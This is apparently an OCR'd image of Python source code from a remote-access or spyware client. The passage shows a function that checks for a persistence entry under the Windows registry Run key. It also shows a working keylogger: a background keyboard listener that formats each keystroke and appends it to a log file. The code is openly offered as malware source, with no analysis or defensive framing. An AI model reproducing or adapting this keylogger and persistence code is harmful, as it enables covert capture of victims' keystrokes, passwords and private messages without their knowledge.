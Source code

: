 # Check if client is set to run on startup
def check_startup(entry_name=STARTUP_NAME):
    try:
        import winreg
        key = winreg.HKEY_CURRENT_USER
        key_value = r"Software\Microsoft\Windows\CurrentVersion\Run"
        with winreg.OpenKey(key, key_value, 0, winreg.KEY_READ) as open_key:
            value, regtype = winreg.QueryValueEx(open_key, entry_name)
            if os.path.exists(value):
                return f"Startup entry exists and file found: {value}\n{END_RESULT}"
            else:
                return f"Startup entry exists but file NOT found: {value}\n{END_RESULT}"
    except FileNotFoundError:
        return f"No startup entry found for '{entry_name}'.\n{END_RESULT}"
    except Exception as e:
        return f"Error checking startup: {e}\n{END_RESULT}"

# Format keystroke for keylogger
def format_stroke(key):
    try:
        stroke = str(key).replace("'", "")
        if stroke == "Key.space":
            return " "
        elif stroke == "Key.enter":
            return "\n"
        elif stroke == "Key.backspace":
            return "<bc>"
        elif stroke == "Key.esc":
            return " "
        elif stroke.startswith("Key"):
            return ""
        else:
            return stroke
    except Exception:
        return ""

# Keylogger event handler
def on_press(key):
    try:
        with open(KEYLOG_FILE, "a", encoding="utf-8") as file:
            file.write(format_stroke(key))
    except Exception:
        pass

# Keylogger thread: records keystrokes in background
def keylogger_thread():
    now = datetime.now().strftime("%d-%m-%Y %H:%M:%S")
    with open(KEYLOG_FILE, "a", encoding="utf-8") as file:
        file.write(f"\n[{now}]\n")
    listener = keyboard.Listener(on_press=on_press)
    listener.start()
